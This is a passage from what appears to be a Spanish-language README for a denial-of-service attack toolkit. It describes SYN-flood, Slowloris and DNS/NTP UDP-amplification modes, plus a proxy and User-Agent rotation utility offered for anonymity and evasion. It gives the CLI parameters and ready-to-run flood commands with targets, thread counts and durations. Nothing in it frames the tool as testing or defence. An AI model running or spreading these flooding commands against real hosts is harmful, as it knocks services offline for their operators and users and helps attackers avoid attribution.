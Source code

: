 ### 2. SYN-Flood
Inunda con paquetes SYN malformados para abrumar la tabla de conexiones.
- **Velocidad**: Muy rápido
- **Efectividad**: Alta
- **Requisitos**: Permisos de administrador/root

### 3. Slowloris
Mantiene conexiones HTTP abiertas indefinidamente.
- **Velocidad**: Lento (intencional)
- **Efectividad**: Alta contra servidores con límite de conexiones
- **Requisitos**: Ninguno especial

### 4. UDP-Amplification
Explota servidores DNS/NTP para amplificar tráfico.
- **Velocidad**: Muy rápido
- **Efectividad**: Muy alta (amplificación)
- **Requisitos**: Acceso a servidores amplificadores

### 5. Proxy Utils
Herramientas para rotación de proxies, IPs y User-Agents.
- **Uso**: Anonimización y evasión
- **Características**: Rotación automática, prueba de proxies

## 🔐 Parámetros Comunes

```
--attack      Tipo de ataque (http_flood, syn_flood, slowloris, udp_amplification)
--target      IP o dominio objetivo (requerido)
--port        Puerto objetivo (default 80)
--threads     Número de threads (default 100)
--duration    Duración en segundos (default 60)
```

## 📝 Ejemplos

### HTTP-Flood contra servidor web
```bash
python cli.py
# O directo:
python python/attacks.py --attack http_flood --target example.com --port 80 --threads 100 --duration 120
```

### SYN-Flood contra servidor
```bash
python python/attacks.py --attack syn_flood --target 192.168.1.1 --port 443 --threads 200 --duration 60
```

### Slowloris contra servidor Apache
```bash
python python/attacks.py --attack slowloris --target 10.0.0.1 --port 8080 --threads 50 --duration 300
```
